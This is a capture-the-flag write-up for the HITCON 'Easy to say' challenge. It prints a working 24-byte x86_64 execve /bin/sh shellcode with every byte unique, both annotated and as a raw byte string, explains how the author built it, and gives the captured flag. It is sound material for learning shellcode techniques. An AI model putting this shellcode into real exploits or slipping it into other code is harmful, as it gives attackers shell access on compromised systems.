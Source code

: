 # Misc - Easy to say

> Write-up by feignix (Paras Chetal)

We were supposed to write a x86_64 /bin/sh shellcode of less than 24 bytes with all bytes unique.

## Shellcode:


```

\xb0\x3b	;mov al, 0x3b

\xbb\xf4\x2e\x73\x68   ;mov ebx,0x68732ef4

\x01\xc3	     ;add bx,ax "//sh"

\x48\xc1\xe3\x20     ;shl rbx, 0x20

\x53	     ;push rbx

\x54	     ;push rsp

\x5f	     ;pop rdi

\xc7\x07\x2f\x62\x69\x6e;	  mov [rdi], 0x6e69622f "/bin"

\x0f\x05		  ;syscall
```


`\xb0\x3b\xbb\xf4\x2e\x73\x68\x01\xc3\x48\xc1\xe3\x20\x53\x54\x5f\xc7\x07\x2f\x62\x69\x6e\x0f\x05`


## Steps (rasm2 came in very handy while debugging):

The stack and registers were cleared out already, so we needed to load the registers with the correct values and run syscall.

The first hurdle was to ensure that all bytes  be unique. This meant that we could not just directly load the address of "/bin//sh" (0x68732f2f6e69622f) into rdi as is usually the case. We would have to create it with all unique bytes. Unfortunately, most of the operations (mov, add etc.) involving the r* registers begin with `\x48` so it meant we could only use one such instruction. I chose to first move "//sh" to ebx (no 0x48 here), and then use the shift left instruction on rbx (0x48 used) and then push it appropriately.

But directly moving "//sh" was not an option (unique bytes!), so I created it by moving (0x68732f2f - 0x3b) into ebx, and then adding ax (0x3b: which was already needed for the syscall, so I was trying to saving bytes). Then I shifted rbx by 32 bits and and pushed it onto the stack.

I now had to mov "/bin" to the stack too (I could not add to rbx, which was my initial thought process regarding this approach, because the add instruction also began with \x48 which I had already used in shift left). This was the second big hurdle I faced.

I initially used `mov [rsp], 0x6e69622f "/bin"`, followed by loading of address to rdi and then syscall. Unfortunately, the shellcode came out to be 25 bytes!

While trying other apporaches I discovred that `mov [rdi], 0x6e69622f "/bin"` took exactly 1 byte less than `mov [rsp], 0x6e69622f "/bin"` ! So I rearranged my earlier shellcode to  load the stack ("/bin//sh") address to rdi before moving "/bin" onto the stack using `mov [rdi]` instead of `mov [rsp]` this time. Now the shellcode was 24 bytes only :)

After [sending the shellcode](exp.py), I got shell and read the flag: `hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}`
